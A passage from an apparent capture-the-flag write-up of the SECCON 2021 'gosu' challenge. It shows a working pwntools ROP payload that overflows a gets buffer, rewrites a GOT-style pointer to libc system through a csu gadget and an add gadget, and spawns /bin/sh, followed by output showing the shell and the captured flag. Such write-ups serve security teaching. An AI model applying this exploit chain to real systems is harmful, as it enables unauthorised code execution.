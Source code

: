 Above is the section of `__libc_csu_init` from `gosu`.  Next we setup some friendly names for our gadgets for use with our final payload:

```python
payload  = b''
payload += 0x88 * b'A'
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64((libc.sym.system - libc.sym._IO_2_1_stdin_) & (1 << 32) - 1)
payload += p64(new_stack - 0x1b0 + 0x3d)
payload += 4 * p64(0)
payload += p64(add_dword_ptr_rbp_ebx)
payload += p64(pop_rdi+1) # align stack for system
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0) # rbx
payload += p64(1) # rbp to get pass check, but not needed here, just habit
payload += p64(new_stack - 0x40) # r12/rdi /bin/sh downstack
payload += p64(0) # r13/rsi
payload += p64(0) # r14/rdx
payload += p64(new_stack - 0x1b0) # r15 pointer to function (system)
payload += p64(set_rdx_rsi_rdi_call_r15)
payload += b'/bin/sh' # \0 from gets for free, gets just keeps on giving

p.sendline(payload)
p.interactive()
```

From the top down:

Using the _pop sled_ at the end of `__libc_csu_init` we _pop_ulate `rbx` and `rbp` for use with the `add dword ptr [rbp - 0x3d], ebx; nop; ret` gadget.  Since we have to reduce `_IO_2_1_stdin_` (`p64` does not do this for us for free) we'll have to compute the two's complement so that the `add` will be adding a negative number.  The location (`rbp - 0x3d`) is `0x404d50 + 0x3d` (see above for the `0x404d50`), however I used the offset relative to `net_stack` (this was helpful since `system` needed a lot more stack space than I originally started with).

With `0x404d50` now set to the location of `system`, then rest is just `ret2csu` with `/bin/sh` tailed on to the end.

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/seccon2021/gosu/gosu'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/pwd/datajerk/seccon2021/gosu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to hiyoko.quals.seccon.jp on port 9002: Done
[*] Switching to interactive mode
$ id
uid=999(pwn) gid=999(pwn) groups=999(pwn)
$ ls -l
total 24
-r-xr-x--- 1 root pwn 16496 Dec  8 14:13 chall
-r--r----- 1 root pwn    44 Dec  8 14:13 flag-875b4ce8378c3f4e5b227fb2a9642933.txt
$ cat flag*
SECCON{Return-Oriented-Professional_:clap:}
```
